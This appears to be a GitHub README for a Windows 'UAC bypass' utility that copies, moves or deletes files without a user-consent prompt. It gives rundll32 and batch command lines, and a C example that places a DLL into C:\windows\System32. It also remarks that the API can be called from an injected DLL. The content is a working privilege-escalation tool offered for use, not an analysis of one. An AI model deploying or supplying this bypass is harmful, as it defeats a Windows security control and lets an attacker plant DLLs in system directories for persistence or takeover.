 
# UAC Bypass Consent Tool to Copy Files
 
### What's different? 
 
This tool doesn't use dll injection and can be used from the command-line. On Success the program exits with exit-code zero, non-zero when failed. Note: Use quoted strings for the file names when using the tool from the command-line.
	
### Command-line Usage:

	rundll32.exe uaccpy32.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Delete "target" [/AllowWarning]
	
	rundll32.exe uaccpy64.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Delete "target" [/AllowWarning]
	
	uacbp.bat Copy "source" "target" [/AllowWarning]
	uacbp.bat Move "source" "target" [/AllowWarning]
	uacbp.bat Delete "target" [/AllowWarning]

   
API Usage, not the purpose of this dll, the functions are just available. 
Using from a normal application will result in user consent being asked,
could be used to call from an injected dll. 
(But that's not the purpose of this tool)

	#include "uaccpyapi.h"

	#pragma comment(lib, "uaccpy32.lib")
	// OR #pragma comment(lib, "uaccpy64.lib")

	int _tmain(int argc, _TCHAR* argv[])
	{
		BOOL bInit = FALSE;
		BOOL bResult;
		
		if (NeedsUserConsent())
		{
			_tprintf(_T("There will be asked for user consent anyway when called from another application.\n"));
			//return -1;
		}

		if (!(bInit = SUCCEEDED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE))))
		{
			_tprintf(_T("CoInitializeEx failed.\n"));
			return -1;
		}

		UacOperation(_T("C:\\Users\\Username\\Desktop\\source.dll"), _T("C:\\windows\\System32"), _T("target.dll"), UACOP_COPY);

		CoUninitialize();

		return 0;
	}
